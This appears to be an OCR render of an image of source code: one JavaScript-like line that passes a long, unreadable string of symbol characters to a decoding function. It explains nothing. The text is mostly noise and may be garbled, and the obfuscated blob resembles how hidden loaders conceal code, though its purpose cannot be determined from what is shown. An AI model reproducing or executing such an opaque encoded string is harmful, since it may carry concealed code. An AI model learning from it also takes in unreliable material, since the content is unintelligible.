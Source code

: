 h=d(e,"vqy+r6#YE<?&k!Hskk##q<kkEqY+H6<Er&6yq<k!E?H?H+<<rss&#<Y+q_!6+6+EH!<!66s<??#Hqykr+++!Hy?)rY&y<y#Yq?kk#ry<!?r?++k+#+6EyyYkY6yY!<E!r!Hs?!y!Hf<+r#HSHy<rs<s.?E#60EkYY!yyY+yE!YE?+!6Y_rk+#H&HY&yy!6EEEErs(EkyYdyHHyEr+EkY<!6Q?y6+ Yk?#&qH!q!kEY+s&!<E6EsEE<6sqYkYEE+k&&<rryn#&rq?Yrk+q^!!q?#EHq5)#Yqkk&YH+qy!s?&<#&&y#Eq#k<Yk?y6ys#&s#<&/#rqrkYY?Y6rs-+rEF+?k6sqyqEHkEk6JB6?<#<sq!yY<k6Eqy<!kEsE66!D!kHEy;+H!<Y+&xd&+s6&#6<Ik&sk6E?r#HsEk#9qEk*YNy#!+Err?sy?&6!?r6k(E&&#HYr+<s&Y!6kqy&E^E!y#kqs!y!y?Y6?Ik?r#<q?k<Y_rrs6<s6Y,+kyr?qHkkYs++HsY66&(H&say&6##q<kk!HY<HY<!r&sH&q!rE<++H&?rH6<!r<sk?s&?E6+!<&Y#6#s#r<qq?!#-q+(YHH?xrH&yEE#bqB!qE6Hr?rr?qssk&y#Hk<?yEq+Y!H<k!&EHrqsr?Y6?5!kFY+yE!HEk+ssys<kqYsy?!#y#!&E?+!s_sY&&Eq+oYqy?!6EE+&+yq#k##EyH!#EsrqEEr#Hk<s6y#rcE!+#6q6H!?+rsH!&s6&sY?!qHs?Ey+6HE.+kyY6yr?qr<sksY??6!kY&H#Hqr!qEYr+?k<r6+zrY<6Hy+!#Y&+!?&#Hr&s<E6ykH+<qr#s&?k#+q6k&Ykys?H#Yqyk6YEYrrkor?<#6qH&q#uk+<!y<!kEsry6+?E6&3HkyYryY!?<s6&s+?#6<q?&sYyy6H?<q+Hsq?r#HS?&!Y>r<H#E<+kHs?E66X<&&#syq!Ek?+?H!?B6<V#&?#kqs+EE6+EH&<s6q^r&YYky!!UE++#s<<krs ykY?qq&ksEq+<HY<?r!w(&E##q<kkEq+yH#<E6!q&&q#rqYkkY!+wH+&##qsk?s#yq6kEE6yHwq<&rYs??!#0q+!+Y<+Hsk<yrYsE&Y6HqqkrYYry!!<+r+s#?<#L>ssy?YyE!HEHrEsr&s6?+!ksY+y<!<?j+sR+?6EE,H&HYryrHkE?rss_!+6?,<&s#s+E!6EH+&HH??6r Y&?YOyo!rE#+&_y<s6yA6&k#&qH!q<#<#H?<!60qk&##<qkHqEY+6HE<&6!pq&r#Yr?H?Ee++H#?rrk.+&yYYq&k&YH+qs+<Yr?s!HJY+q#k<Yk+EHy<<rE/!k6#qqrkYE<y!HX<+Y#Ky?k6sqykEYE+H!H?+6rsY??6!qEk+Y#y<!H?6rys#?E6!_HkqYryYH!E!rws+?E6<J!&sEryE!EE&+Hs<?r6Y5?&sE#y+!YE<+sHs?y66lEkH#Hyq!rE<+?HH?8#6KE&<#kqs!?E6+EH&?n#Y(r&E#?qH!pE++#H<JrrsGy&6#?q&ksEq+#s!<?r!,G&+##q<kk<qEyH6<Er&oY&q#rqYk?Ey+gH+<#r?sk?s#yq?kEY&yHH?<rrYs??s#8q+k#Y<yHH+<yr6sEqy&sYHy<Y<yH!!<Ur+6HqE!qEqkrY<yE!&EH?666q&&sbsk?Y+y#!<HTEsrrp?kkE3+9!sE<r<EkrBs)?+6#y?H#H+yr!YEE+&HHq5kYC<kq#!yK!+!#?6r!ay&YrHqk#!y#!qEr+Y+H3y&k#Ey#!EEHr+Eyr&HE<&rHq+ks#Yq?k!Ey++H#<<#kJr&y#6qEk&YH+<Hr<Yr&s!&q#+q#k<Ykyssr?YrEs!?H#yqrkYY?+sH&<+r<s<&+6sqyk6<E+y!H<rrrs???#qq0!6<+y<HTEsrEs6?E6&GHq?Yry?!?Esrjs6?#Y<ym&sY6y6!&E&rqsq?rkqc?kqYty+!#E<+ks6Hr66o!&&#syq!6EY+HH!?_<yo#&<#kyq!yE6+EH&!!6qJr&Y#?q!!iE++#yE<krsgy&##Eq&kHEqY+HY<?r!Z+&+##q<!H?y+yH?<E6hsH&q#rq!VkY!+6H+<#r<s!?s#+q6kE&?yHHq<rr<s??!#Qy6H<Y<+q!s<&r6sE?&Y0yqkrYky?H#<-r+s#?<&q=skYY6y<!&Esrqsr5!6?Q!koYry#!<Ekrqsy?66Ez!&HYqyr!<EH+!sB?+k!#?y6H+yr!?EE+&HHqq&Y#Ey#!<y0!!E#+<Hk&q#y_6&E#&qs!qEr+YH?jq6tW+&##?qk!qEy+&